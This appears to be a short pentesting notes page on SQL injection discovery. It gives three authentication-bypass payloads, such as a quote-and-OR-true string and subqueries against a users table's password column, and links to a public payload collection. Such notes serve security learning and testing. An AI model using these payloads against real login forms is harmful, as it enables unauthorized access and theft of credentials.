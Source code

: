 # SQL Injection Discovery



## SQL Injection Discovery

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**Note:**</mark> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.



**Examples:**

```sql
admin' or '1'='1
```

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



You can find a comprehensive list of SQLi auth bypass payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass), each of which works on a certain type of SQL queries.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}



\
